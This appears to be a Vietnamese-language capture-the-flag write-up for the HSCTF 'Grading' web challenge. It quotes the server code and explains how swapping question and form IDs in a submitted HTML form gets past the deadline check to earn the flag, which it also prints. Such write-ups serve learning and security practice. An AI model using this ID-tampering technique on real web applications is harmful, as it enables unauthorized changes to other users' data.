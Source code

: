 # Grading

## Description

Did you attend online school this year?

Good, because you'll need to register at grading.hsc.tf and get anA on "simple quiz" to find the flag.

Server code is attached.

## Solution

Sau khi đăng nhập vào một tài khoản do mình tự tạo ta sẽ thấy xuất hiện hai bài test :

![img](img/img9.png)

Có thể thấy một bài test đã hết hạn (13/5/2021), và một bài test sẽ hết hạn vào (19/5/2021) tức là lúc event này kết thúc .
```
const failedTest = {
                name: "simple quiz",
                questions: [
                    user.questions[0]._id,
                ],
                deadline: new Date(2021, 5, 13, 0, 0, 0)
            }
            
            const newTest = {
                name: "another simple quiz",
                questions: [
                    user.questions[1]._id,
                ],
                deadline: new Date(2021, 5, 19, 0, 0, 0)
            } 
```

Tiếp theo tôi thấy servẻ kiểm tra câu hỏi và trả lời bằng cách sử dụng ID .

```
.post(authMW, (req, res) => {
    const now = Date.now()
    const form = req.user.forms.id(req.params.formID)
    if(now > form.deadline) {
        res.json({response: "too late"})
    } else {
        if(req.body.ID) {
            const question = req.user.questions.id(req.body.ID)
            console.log(question);
            question.submission = req.body.value
            req.user.save()
        } else {
            form.submitted = true
            req.user.save()
        }

        res.json({response: "heh"})
    }

}) 
```
Và còn một điều nữa là câu hỏi sẽ chỉ được check khi form hết hạn vậy để lấy được flag ta sẽ cần thay đổi giá trị ID của câu hỏi và câu trả lời của form chưa hết hạn bằng ID của form đã hết hạn . Cụ thể như sau :

> ID question simple quiz : 60ce91268c156e4a10529a43
> ID answer simple quiz : 60ce91268c156e7e03529a41 (answer : "Africa is not a country"  )

> Form another simple quiz sau khi thay đổi :
```
<div class="container mid">
    <form action="/60ce91268c156e4a10529a43" method="POST" onsubmit="return true;">
         
        <div class="mb-3 question">
            <label for="">What is the best CTF?</label>
            
                <input type="text" disabled class='active' name="60ce91268c156e7e03529a41" value="Africa is not a country">
             
        </div>
         
        <button class="btn btn-primary" type="submit">Submit</button>
    </form>
</div>
```

Sau khi submit ta cần quay lại **simple quiz** để lấy flag .

![img](img/img10.png)

## Flag

flag{th3_an5w3r_w4s_HSCTF_0bvi0us1y}